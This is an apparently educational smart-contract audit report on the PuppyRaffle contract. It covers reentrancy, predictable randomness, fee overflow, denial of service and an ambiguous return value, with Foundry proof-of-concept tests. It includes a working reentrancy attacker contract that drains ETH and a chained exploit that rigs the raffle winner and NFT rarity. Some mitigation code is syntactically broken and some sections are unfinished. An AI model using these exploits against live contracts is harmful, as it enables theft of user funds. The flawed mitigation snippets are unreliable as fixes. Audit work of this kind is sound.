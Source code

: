 ### [C-1] Reentrancy in refund function

**Description:** 
Rafund function does not implement reentrancy protection. Attacker can invoke refund function from specialy crafted, malicous contract. When refund will send eth to this contract execution is passed to it while state of victim contract is not changed. That gives oportunity to invoke refound once again and receive another eth. Doing it until any eth is left in victim contract will drain all assets from it.

<details>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

``` 
</details>

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC - test function</summary>

```javascript
    function testRefundReentrancy() public {

        // Stage 0: Deploy malicious contract
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        deal(playerOne, puppyRaffle.entranceFee() * 5);
        vm.prank(playerOne);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 contractBalanceBefore = address(puppyRaffle).balance;

        // Stage 1: Deploy malicious contract
        vm.deal(attacker, entranceFee);
        uint256 attackContractBalanceBefore = address(attacker).balance;
        vm.startPrank(attacker);
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker);


        // Stage 2: Invoke attack function
        reentrancyContract.attack();

        // Stage 3: Verify that the attacker has successfully withdrawn the prize
        uint256 attackContractBalanceAfter = address(attacker).balance;
        
        assertGt(attackContractBalanceAfter, attackContractBalanceBefore);
        assertLt(address(puppyRaffle).balance, entranceFee);
        vm.startPrank(attacker);

    }

```
</details>

<details>
<summary>PoC - Malicious Contract</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import {Test, console} from "forge-std/Test.sol";

interface PuppyRaffle {
    function getActivePlayerIndex(address player) external view returns (uint256);
    function entranceFee() external view returns (uint256);
    function enter(uint256 index) external payable;
    function withdraw(uint256 amount) external;
    function enterRaffle(address[] memory newPlayers) external payable;
    function refund(uint256 playerIndex) external;
}

contract ReentrancyContract {
    address private immutable owner;
    PuppyRaffle private raffle;
    uint256 private entryFee;
    uint256 private attackerIndex;

    event AttackStarted();
    event EthReceived(uint256 amount);
    event ReentrancyStarted();
    event LootWithdrawn(uint256 amount);

    constructor(address raffleAddress, address ownerAddress) payable {
        // Set the contract owner
        owner = ownerAddress;

        // Initialize the PuppyRaffle contract
        raffle = PuppyRaffle(raffleAddress);

        // Create an array of attackers with the current contract address
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        
        // Get the entrance fee from the PuppyRaffle contract
        entryFee = raffle.entranceFee();

        // Enter the raffle with the entrance fee
        raffle.enterRaffle{value: entryFee}(attackers);

        // Get the index of the attacker in the raffle
        attackerIndex = raffle.getActivePlayerIndex(address(this));

        // Log the attacker index and entry fee
        // console.log("Attacker index: %d", attackerIndex);
        // console.log("Entry fee: %d", entryFee);

        emit AttackStarted();
    }

    function attack() external {
        emit ReentrancyStarted();
        raffle.refund(attackerIndex);
    }

    receive() external payable {
        emit EthReceived(msg.value);
        if (address(raffle).balance >= entryFee) {
            raffle.refund(attackerIndex);
        }else{
            withdraw();
        }
    }

    function withdraw() internal {
        uint256 balance = address(this).balance;
        payable(owner).transfer(balance);
        emit LootWithdrawn(balance);
    }
}

```
</details>

**Recommended Mitigation:** 
Implement check interactions effect pattern or ReentrancyGuard mutex.


### [H-2] Insecure randomnes

**Description:** 
The `PuppyRaffle` contract uses insecure randomness. A malicious user can predict how many addresses they need to add due to the randomness implementation based on block data, sender address, and internal array size. All these parameters can be under the attacker's control or they can know their values, making it possible to manipulate the contract state to always win the lottery.


<details>
<summary>Vulnerable code 1</summary>

```javascript
uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length

```
</details>

Moreover, the value of the minted item is also based on predictable or controllable data:

<details>
<summary>Vulnerable code - 2</summary>

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
```
</details>
 A malicious user can generate a large number of accounts and pick the one which will generate a Legendary item.

It is worth mentioning that participants will always get the same item value for the same account.

In some scenarios, conducting a successful attack may require a lot of assets. However, a malicious user can reclaim them by chaining this exploit with reentrancy, making the whole exploitation profitable. They will get the invested amount back, plus ETH stolen from other participants, plus the prize for winning the lottery and a Legendary NFT.

**Impact:** 
Critical - Malicous user can

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
NOTE: This PoC uses code from reentrancy previous chapter.

```javascript

   function testRandonNumberSelectWinner() public {

        // Stage 0: Start to record logs and start raffle than wait to raffle end
        // That imitates malicious user who monitors the logs and tries to exploit the system
        vm.recordLogs();
        // Users enter the raffle
        address[] memory players1 = new address[](3);
        players1[0] = playerOne;
        players1[1] = playerTwo;
        players1[2] = playerThree;
        
        puppyRaffle.enterRaffle{value: entranceFee * 3}(players1);

        address[] memory players2 = new address[](2);
        players2[0] = playerFour;
        players2[1] = address(5);

        puppyRaffle.enterRaffle{value: entranceFee * 2}(players2);

        // CHAIN 1: deploy reentrancy contract and add it later to the raffle 
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker, 0);

        // DEBUG: check logs
        // Retrieve the recorded logs
        Vm.Log[] memory logs = vm.getRecordedLogs();
        uint256 playerCount = getPlayerCount( logs );

        // RAFFLE OVER
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        // -----------------

        // To arrays of legit players and one malicious reentrancy
        assertEq(playerCount, players1.length + players2.length + 1, "Player count does not match the expected value");

        // Stage 1: Count address that always will generate legendary item 
        address legendaryAddress = findLegendaryAddress();

        // Stage 2:Predict how many address add to  became a winner
        uint attackerIndex = playerCount; // The attacker is the last player and we counting from 0, I added it to make it clear

        
        // Winner prediction 
        uint256 playersNeeded = predictPlayersNeeded(attackerIndex, legendaryAddress);
        // Attacker gets founds for attack (flashLoan or anything)
        assertEq(address(attacker).balance, 0, "Attacker balance should be 0");
        deal(attacker, puppyRaffle.entranceFee() * playersNeeded);

        // Attacker is founding legendary account
        vm.prank(attacker);
        // We are delaing a lot of ETH as attack might be expensive
        payable(legendaryAddress).transfer(puppyRaffle.entranceFee() * playersNeeded);
        assertLe(puppyRaffle.entranceFee() * playersNeeded, address(legendaryAddress).balance, "Legendary address did not receive the funds");
        
        //deal(legendaryAddress, puppyRaffle.entranceFee() * playersNeeded);
        vm.startPrank(legendaryAddress);

        // Stage 3: Add the necessary number of players to the raffle
        uint256 playersNeededToBeAdd = playersNeeded - playerCount ;
        address[] memory maliciousAddresses = new address[](playersNeededToBeAdd);
        maliciousAddresses[0] = legendaryAddress;   
        
        // // Add the necessary number of players to the raffle
        for (uint256 p = 2; p < playersNeededToBeAdd; p++) {
            address playerAddress = address( uint160(p+100) );
            maliciousAddresses[p] = playerAddress;   
        }

        puppyRaffle.enterRaffle{value: entranceFee * (playersNeededToBeAdd)} (maliciousAddresses);
        vm.stopPrank();

        // CHAIN 2: reentrancy contract attack - attack must be stoped before needed prize will be drained
        vm.startPrank(attacker);
        uint256 totalAmountCollected = entranceFee * (playersNeeded);
        uint256 prizePool = (totalAmountCollected * 80) / 100 +1;
        reentrancyContract.setDrainEdge( prizePool + entranceFee);
        reentrancyContract.attack();
        vm.stopPrank();

        // Stage 4: Select the winner
        vm.prank(legendaryAddress);
        puppyRaffle.selectWinner();

        // Check if attack succeded
        // Legendary address should be the winner
        assertEq(puppyRaffle.previousWinner(), legendaryAddress);
        // Legendary address should have the legendary prize
        uint256 tokenId = puppyRaffle.tokenOfOwnerByIndex(legendaryAddress, 0); // We can assume that this is only attacker's token for test purpse 
        uint256 rarity = puppyRaffle.tokenIdToRarity(tokenId);// Take rarity of stolen token
        uint256 LEGENDARY_RARITY = puppyRaffle.LEGENDARY_RARITY();
        assertEq(rarity, LEGENDARY_RARITY, "Legendary address did not receive a legendary rarity token");
        // Transfer the token from the legendary address to the attacker
        vm.prank(legendaryAddress);
        puppyRaffle.transferFrom(legendaryAddress, attacker, tokenId);

        // Verify the transfer
        address newOwner = puppyRaffle.ownerOf(tokenId);
        assertEq(newOwner, attacker, "Token was not transferred to the attacker");
    }

    function predictPlayersNeeded(uint _attackerIndex, address _attacker) public view returns (uint256 _playerCount) {
        // As this is minium number of players there is no need to iterate from 0
        uint256 playerCount = 4;
        while (true) {
            uint256 winnerIndex = uint256(keccak256(abi.encodePacked(_attacker, block.timestamp,block.difficulty))) % (playerCount);
            if (winnerIndex == _attackerIndex) {
                return playerCount;
            }
            playerCount++;
        }
    }
    
    function getPlayerCount(Vm.Log[] memory logs) public pure returns (uint256) {
        uint256 playerCount = 0;
        for (uint256 j = 0; j < logs.length; j++) {
            if (logs[j].topics[0] == keccak256("RaffleEnter(address[])")) {
                // Decode the data to get the player addresses
                address[] memory newPlayers = abi.decode(logs[j].data, (address[]));
                playerCount += newPlayers.length;
            }
        }
        return playerCount;
}

    function findLegendaryAddress() public view returns (address _legendaryAddress) {
        uint256 rareThreshold = puppyRaffle.RARE_RARITY();
        uint256 commonThreshold = puppyRaffle.COMMON_RARITY();
        uint256 legendaryThreshold = rareThreshold + commonThreshold + 1;

        address legendaryAddress;
        uint256 rarity;
        uint256 i = 0;
        while (true) {
            rarity = uint256(keccak256(abi.encodePacked(legendaryAddress, block.difficulty))) % 100;
            if (rarity > legendaryThreshold) {
                break;
            }
            legendaryAddress = address(uint256(keccak256(abi.encodePacked(i, block.difficulty))));
            i++;
        }
        console.log("Legendary address found after ", i, " iterations");
        return legendaryAddress;
}
   
```

</details>

**Recommended Mitigation:** 
Use a Secure Randomness Source: Replace the insecure randomness source with a more secure and unpredictable one, such as Chainlink VRF (Verifiable Random Function).
Delay Randomness Calculation: Introduce a delay between the action and the randomness calculation to reduce predictability.
Combine Multiple Sources: Use multiple sources of randomness to make it harder to predict the outcome.


### [H-3] Overflow in calculating total fee

**Description:** 
### Corrected Description

The variable `totalFees`, used for counting the amount of ETH to send as profit, is declared as `uint64`. Since this amount is counted in wei, it is possible to overflow this value. In the test case scenario, with an entrance fee of 1 ETH, the 20th account causes an overflow.


**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>

```javascript

function testOverflowSelecWinner() public {
        // Overflow in totalFees = totalFees + uint64(fee); 
        // We will enter 19 players and then enter one more to cause overflow
        uint256 numAccounts = 19;
        
        uint totalFees = puppyRaffle.totalFees();
        uint deposited = 0;
        
        for (uint256 i = 0; i < numAccounts; i++) {
            address account = address(uint160(uint256(keccak256(abi.encodePacked(i)))));
            vm.deal(account, entranceFee);

            address[] memory players1 = new address[](1);
            players1[0] = account;
            // Assuming there's a function to enter the raffle
            puppyRaffle.enterRaffle{value: entranceFee}(players1);
            deposited += entranceFee;
        }
        // Next player will cause overflow. 
        // Check current state
        address account = address(uint160(uint256(keccak256(abi.encodePacked('31337')))));
        vm.deal(account, entranceFee);
         address[] memory overflow = new address[](1);
        // Enter and cause overflow 
        puppyRaffle.enterRaffle{value: entranceFee}(overflow);
        deposited += entranceFee;
        // Fastforward time to end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // Run selectWinner to update the totalFees
        vm.prank(account);
        puppyRaffle.selectWinner();

        // Check if overflow happened
        uint64 newFees = puppyRaffle.totalFees();
        assertLt(uint(newFees), deposited, "Overflow did not happen");
    }

```

</details>

**Recommended Mitigation:** 
Reconsider using `uint64` for storing data that may exceed its capacity. Use SafeMath or update the Solidity version to 0.8.0 or later, which has built-in overflow checks.

    



### [M-1] DoS attack in `PuppyRaffle::enterRafle'

**Description:** 
Protocol uses nested loop which sieze is under attacker control. Attacker can invoke function with large array to cause DoS while looping n^2 complex function increasing cost of entering to raffle. 

**Impact:** 
Every next entrance will be more expensive. If attacker  with add big array he will make unprofitable to join raffle fore anyone fue to lifting up gas price for executing `enterRaffle` function

**Proof of Concept:** (Proof of Code)
<details>
<summary>PoC</summary>

```javascript
    function testEnterRaffleDoS() public {
        uint256 largeArraySize = 10000; // Adjust this size based on gas limits and testing environment
        address[] memory largeArray = new address[](largeArraySize);
        for (uint256 i = 0; i < largeArraySize; i++) {
            largeArray[i] = address(uint160(i));
        }

        // Fund the attacker to cover entrance fees
        deal(attacker, puppyRaffle.entranceFee() * largeArraySize);
        vm.txGasPrice(1);
        uint256 gasStart = gasleft();
        // Try to enter the raffle with the large array

        vm.startPrank(attacker);
        try puppyRaffle.enterRaffle{value: puppyRaffle.entranceFee() * largeArraySize}(largeArray) {
            emit log("The DoS attack was successful, which is unexpected.");
        } catch {
            emit log("The DoS attack failed as expected due to high gas consumption.");
        }
        uint256 gasEnd = gasleft();
        uint256 gasUsed = (gasStart - gasEnd)*tx.gasprice;                
        console.log("AL:", gasUsed);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation:** 
<details>
<summary>PoC</summary>

```javascript

// Check for duplicates only from the new players using mappin
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] != raffleId;
        }

        for(uint256 i=0; i < newPlayers.length; i++>){
            require(addressToRaffleId[newPlayers[i]] != raffleId, "Duplicate");
        }
            emit RaffleEnter(newPlayers);
    }

```
</details>


### [M-#] Ambigous 0 value in function return

**Description:** 
If a player is at index 0 function will mislead user that he is not active because 0 is returned also for non-active users. 

<details>
<summary>PoC</summary>

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```
</details>
**Impact:** 
If user 

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
Added log function to contract 

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        console.log("Player not not active");
        return 0;
    }
```

```javascript
    function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
    }
```


</details>

**Recommended Mitigation:** 
Revert if user is not active.
Revert if player is not active.
```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        // console.log("Player not not active");
        // return 0;
        revert("PuppyRaffle: Player not active");
    }
```

```javascript
   function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
        vm.expectRevert("PuppyRaffle: Player not active");
        assertEq(puppyRaffle.getActivePlayerIndex(playerThree), 0);
    }
```




# TEMPLATE

### [S-#] Private Data stored in storeage on chain HIGH (ROOT CAUSE + IMPACT)

**Description:** 

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>

```javascript


```
</details>

**Recommended Mitigation:** 
Revert if player is not active.
```javascript

```

```javascript

    
```

